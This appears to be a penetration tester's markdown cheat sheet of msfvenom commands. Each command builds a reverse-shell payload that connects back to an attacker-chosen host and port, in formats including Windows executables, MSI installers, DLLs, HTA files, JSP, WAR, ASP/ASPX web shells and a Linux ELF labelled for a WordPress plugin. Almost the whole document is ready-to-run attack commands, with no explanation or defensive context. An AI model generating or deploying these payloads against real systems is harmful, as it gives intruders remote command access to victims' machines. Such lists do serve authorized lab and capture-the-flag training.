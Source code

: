 # MSFVenom
------

https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/

exe
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=9999 -f exe -o shell.exe
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.23.31 LPORT=9999 -f exe -o shell.exe  
```

msi
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.121 LPORT=80 -f msi -o rev.msi
```

jsp
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=9999 -f raw -o shell.jsp
```

elf (Wordpress Plugin)
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.133 LPORT=9999 -f elf -o shell.elf
```

asp
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$1 LPORT=9999 -f asp -o shell.asp
```

aspx
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=$1 LPORT=9999 -f aspx -o shell.aspx
```

war
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$1 LPORT=9999 -f war -o shell.war
```

hta-psh
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=9999 -f hta-psh -o shell.hta
```

dll
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=9999 -f dll -o shell.dll
```
